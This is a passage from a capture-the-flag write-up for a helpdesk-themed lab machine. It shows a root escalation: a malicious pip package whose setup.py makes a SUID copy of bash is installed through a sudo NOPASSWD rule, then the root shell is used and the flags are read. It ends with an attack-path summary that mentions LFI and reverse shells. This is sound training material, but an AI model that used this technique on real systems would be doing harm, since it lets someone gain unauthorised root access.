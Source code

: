 ```bash
EOF
```

Or one-liner:

```bash
echo 'from setuptools import setup; import os; os.system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"); setup(name="evil", version="0.1", description="evil package", py_modules=[])' > /tmp/evil/setup.py
```

Install using sudo:

```bash
sudo /usr/bin/pip3 install --break-system-packages .
```

`pip` runs `setup.py` as root. Expected output:

```
Successfully built evil
Successfully installed evil-0.1
```

### Get a root shell

A SUID copy of bash was created at `/tmp/rootbash`. Run it with `-p` to preserve privileges:

```bash
/tmp/rootbash -p
```

Capture flags:

```bash
cat /root/root.txt /home/helpdesk/user.txt
```

Result:

```
flag{request_has_been_escalated}
flag{ticket_approved_by_thedesk}
```

---

## Summary & remediation

**Attack path summary:**

1. `nmap` → identify HTTP service  
2. `feroxbuster` → find `ticket.php`  
3. `ffuf` → discover `url` parameter  
4. LFI → read files  
5. LFI → recover credentials  
6. Web panel → reverse shell as `www-data`  
7. Writable UNIX socket → reverse shell as `helpdesk`  
8. `sudo -l` → `pip3 install` NOPASSWD → malicious package → root shell
